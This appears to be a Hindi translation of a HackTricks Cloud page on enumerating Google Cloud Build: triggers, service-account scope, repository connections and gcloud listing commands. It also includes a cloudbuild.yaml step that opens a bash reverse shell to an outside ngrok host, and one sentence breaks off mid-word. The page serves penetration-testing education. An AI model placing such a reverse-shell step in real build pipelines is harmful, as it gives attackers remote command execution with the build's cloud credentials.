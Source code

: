 # GCP - क्लाउड बिल्ड एनुम

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके।

</details>

## मूल जानकारी

Google Cloud Build एक प्रबंधित CI/CD प्लेटफॉर्म है जो **सॉफ़्टवेयर निर्माण** और रिलीज प्रक्रियाओं को **स्वचालित करता है**, **स्रोत कोड भंडारों** के साथ एकीकरण करता है और विभिन्न प्रोग्रामिंग भाषाओं का समर्थन करता है। यह **डेवलपर्स को कोड को स्वचालित रूप से निर्माण, परीक्षण और डिप्लॉय** करने की अनुमति देता है जबकि निर्माण चरणों और कार्यप्रवाहों को अनुकूलित करने की लचीलाता प्रदान करता है।

प्रत्येक Cloud Build Trigger **एक Cloud Repository से संबंधित है या एक बाह्य रिपॉजिटरी के साथ सीधे कनेक्ट किया गया है** (Github, Bitbucket और Gitlab).

{% hint style="success" %}
मैंने यहाँ से या Cloud Repositories से Github/Bitbucket टोकन चुराने का कोई तरीका नहीं देखा क्योंकि जब रेपो डाउनलोड किया जाता है तो इसे [https://source.cloud.google.com/](https://source.cloud.google.com/) URL के माध्यम से एक्सेस किया जाता है और Github क्लाइंट द्वारा एक्सेस नहीं किया जाता है।
{% endhint %}

### घटनाएँ

Cloud Build को निम्नलिखित की गई स्थितियों में ट्रिगर किया जा सकता है:

* **एक शाखा में पुश**: शाखा निर्दिष्ट करें
* **नया टैग पुश**: टैग निर्दिष्ट करें
* **पुल अनुरोध**: पीआर प्राप्त करने वाली शाखा निर्दिष्ट करें
* **मैन्युअल आह्वान**
* **Pub/Sub संदेश**: विषय निर्दिष्ट करें
* **वेबहुक घटना**: एक HTTPS URL उजागर करेगा और अनुरोध को एक गुप्त से प्रमाणित करना होगा

### क्रियान्वयन

3 विकल्प हैं:

* एक yaml/json **कोमांड्स को निष्पादित करने का निर्देश**। सामान्यत: `/cloudbuild.yaml`
* केवल एक जो वेब कांसोल और cli में "इनलाइन" निर्दिष्ट किया जा सकता है
* सबसे सामान्य विकल्प
* अनाथेंटिकेटेड एक्सेस के लिए महत्वपूर्ण
* एक **Dockerfile** को निर्माण करने के लिए
* एक **Buildpack** को निर्माण करने के लिए

### SA अनुमतियाँ

**सर्विस अकाउंट में `cloud-platform` स्कोप है**, इसलिए यह **सभी विशेषाधिकारों का उपयोग कर सकता है।** यदि **कोई SA निर्दिष्ट नहीं किया गया है** (जैसे सबमिट करते समय) तो **डिफ़ॉल्ट SA** `<proj-number>@cloudbuild.gserviceaccount.com` का उपयोग होगा।

डिफ़ॉल्ट रूप से कोई अनुमतियाँ नहीं दी गई हैं लेकिन इसे कुछ अनुमतियाँ देना बहुत आसान है:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### मंजूरी

एक Cloud Build को **निर्माण क्रियाओं के लिए मंजूरी की आवश्यकता** को कॉन्फ़िगर करना संभव है (डिफ़ॉल्ट रूप से अक्षम).

### कनेक्शन और रिपॉजिटरी

कनेक्शन निम्नलिखित के माध्यम से बनाए जा सकते हैं:

* **GitHub:** यह एक OAuth प्रॉम्प्ट दिखाएगा जिसमें अनुमतियाँ मांगी जाएंगी ताकि **एक Github टोकन प्राप्त किया जा सके** जो **सीक्रेट मैनेजर में स्टोर किया जाएगा।**
* **GitHub Enterprise:** यह एक **GithubApp** स्थापित करने के लिए कहेगा। आपके GitHub Enterprise होस्ट से एक **प्रमाणीकरण टोकन** बनाया जाएगा और इस प्रोजेक्ट में एक **सीक्रेट मैनेजर** सीक्रेट के रूप में स्टोर किया जाएगा।
* **GitLab / Enterprise:** आपको **API एक्सेस टोकन और Read API एक्सेस टोकन** प्रदान करना होगा जो **सीक्रेट मैनेजर में स्टोर** किया जाएगा।

एक कनेक्शन जब उत्पन्न होता है, तो आप इसे उपयोग कर सकते हैं **जिसमें Github अकाउंट का एक्सेस है**।

यह विकल्प बटन के माध्यम से उपलब्ध है:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
ध्यान दें कि इस तरीके से कनेक्ट किए गए रिपॉजिटरी **केवल 2वीं पीढ़ी का उपयोग करने वाले ट्रिगर्स में ही उपलब्ध हैं।**
{% endhint %}

### रिपॉजिटरी कनेक्ट करें

यह **`कनेक्शन`** के समान नहीं है। यह **एक गिटहब या बिटबकेट** रिपॉजिटरी तक पहुंचने के **विभिन्न** तरीके प्रदान करता है लेकिन **कनेक्शन ऑब्ज
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
एक स्टोरेज बकेट जिसका नाम [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) है, बनाया गया है ताकि इसमें उपयोग के लिए फ़ाइल्स के साथ `.tgz` स्टोर किया जा सके।

### शैल को प्राप्त करें
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### जांच

आप **बिल्ड कॉन्फ़िग और लॉग में संवेदनशील जानकारी** पा सकते हैं।
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### विशेषाधिकार उन्नयन

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### अप्रमाणित पहुंच

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### पोस्ट एक्सप्लोइटेशन

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, HackTricks** और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके।

</details>
